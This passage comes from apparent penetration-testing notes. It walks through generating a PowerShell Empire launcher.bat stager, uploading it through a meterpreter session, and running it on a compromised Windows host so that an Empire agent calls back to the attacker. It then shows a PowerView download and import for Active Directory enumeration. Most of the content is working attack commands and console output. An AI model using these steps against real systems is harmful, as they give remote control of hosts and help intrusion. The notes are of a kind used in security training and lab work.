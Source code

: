 Reversing this process to connect to an Empire agent from an existing meterpreter session is also possible.

```bash
(Empire: listeners) > usestager windows/launcher_bat
(Empire: stager/windows/launcher_bat) > set Listener http
(Empire: stager/windows/launcher_bat) > execute
[*] Stager output written out to: /tmp/launcher.bat
```

Then we can upload and execute it:

```ruby
meterpreter > upload /tmp/launcher.bat
[*] uploading : /tmp/launcher.bat -> launcher.bat
[*] Uploaded 4.69 KiB of 4.69 KiB (100.0%): /tmp/launcher.bat -> launcher.bat
[*] uploaded : /tmp/launcher.bat -> launcher.bat
meterpreter > shell
Process 4644 created.
Channel 2 created.
C:\Users\offsec.corp\Downloads>dir
dir
Volume in drive C has no label.
Volume Serial Number is 9E6A-47F8
Directory of C:\Users\offsec.corp\Downloads
09/19/2019 08:42 AM <DIR> .
09/19/2019 08:42 AM <DIR> ..
09/19/2019 08:42 AM 4,802 launcher.bat
1 File(s) 4,802 bytes
2 Dir(s) 2,022,359,040 bytes free
C:\Users\offsec.corp\Downloads>launcher.bat
launcher.bat
```

Now we should receive an Empire agent from the compromised host:

```bash
(Empire: agents) > [+] Initial agent LEBYRW67 from 10.11.0.22 now active (Slack)
```

---

## Standalone scripts

Powershell standalone script can be found under `/usr/share/powershell-empire/data/module_source/`

### PowerView.ps1

Download: [PowerView download](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1)

```powershell
PS C:\Tools\active_directory> Import-Module .\PowerView.ps1
```

Enumerate **logged-in users**:
